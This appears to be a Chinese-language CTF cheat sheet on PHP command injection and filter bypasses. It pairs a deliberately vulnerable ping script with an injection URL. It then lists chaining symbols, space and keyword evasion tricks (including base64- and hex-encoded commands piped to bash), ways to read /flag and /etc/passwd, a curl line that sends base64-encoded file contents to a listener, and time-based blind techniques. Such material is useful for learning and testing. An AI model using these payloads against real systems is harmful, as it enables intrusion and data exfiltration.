

# 命令注入与绕过总结

#### 高危函数：

1.代码注入：

```php
eval()、assert()、preg_replace()、call_user_func()等等
```

2.命令执行：

```php
system()、exec()、shell_exec()、passthru()、pctnl_exec()、popen()、proc_open() 注：反引号是shell_exec()的别名

```

**例：**

```php
<?php
if (isset($_GET['ip'])) {
$ip = $_GET['ip'];
echo shell_exec("ping -c 4 " . $ip);
} else {
highlight_file(__FILE__);
}
```

```php
/?ip=127.0.0.1;ls%20-a即可利用
```

**联合执行可利用的符号：**

```php
; 无论前边运行成功还是出现错误，都运行后边
&& 前边成功结束才运行后边
|| 只有前边错误后边才执行
| 将前一个命令的输出作为后一个命令的输入
%0a %0d 换行符
`cat flag` 反引号内联执行
在Linux bash中可以使用{OS_COMMAND,ARGUMENT}来执行系统命令{cat,flag}

```

### 绕过

#### 空格：

```php
$IFS
${IFS} （常用）
$IFS$9
<
<>
{cat,flag.php} // 用逗号实现了空格功能，需要用 {} 括起来
%20
%09

```

**关键字**：

```php
1.ca\t y1n\g.php 反斜线绕过
2.cat y''ng.php 两个单引号绕过
3.echo “Y2F0IHkxbmcucGhw” | base64 -d | bash  base64 编码绕过
`echo “Y2F0IHkxbmcucGhw” | base64 -d `
4.echo “6361742079316E672E706870” | xxd -r -p | bash  hex 编码绕过
5.cat y1 [n] g.php 用 [] 匹配
6.cat y1n* 用 * 匹配任意
7.cat y1n?
8.cat y1{a..z}g 
9.内联执行：如，ls 输出为flag 则执行cat `ls`
10.shell特殊变量绕过:ca$@t fla$@g或者ca$1t fla$2g


```

**替代：**

```php
cat、tac、more、less、head、tail、nl、sed、sort、uniq
    
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容

nl：nl /flag
pr：pr /flag
od：od -t c /flag
rev：rev /flag
fmt：fmt /flag
php：php /flag
cut：cut -b1- /flag、cut -c1- /flag、cut -f1 /flag
sort：sort /flag
uniq：uniq /flag
grep：grep { /flag
curl：curl file:///flag
diff：diff /flag /etc/passwd
iconv：iconv /flag
paste：paste /flag /etc/passwd
strings：strings /flag
base32、base64
bzmore、bzless：bzmore /flag、bzless /flag
```

escapeshellarg()+escapeshellcmd()：

同时使用会有安全隐患

wget rce：

先请求本地文件，然后走vps代理即可读取本地文件。

#### 无回显RCE

1.curl外带

```php
curl 127.0.0.1:1234/?flag=`cat flag|base64`


```

2.dnslog

[dnslog查看回显](https://www.wolai.com/2uYL9hLzGDi2vVruZTe54T "dnslog查看回显")

#### NodeJS RCE

暂略

[https://www.anquanke.com/post/id/237032](https://www.anquanke.com/post/id/237032 "https://www.anquanke.com/post/id/237032")

#### 神奇payload：



```php
/???/??? *
可以是/bin/cat flag.php,所以可以读取到flag
```

#### bash盲注

**当机器无回显且不出网的情况下**

即为延时盲注，注意截取与比较

```php
1.grep -e "^BJ"flag &&sleep 5
2.cut
3.url="http://www.baidu.com"
    echo ${url:5:11}
```


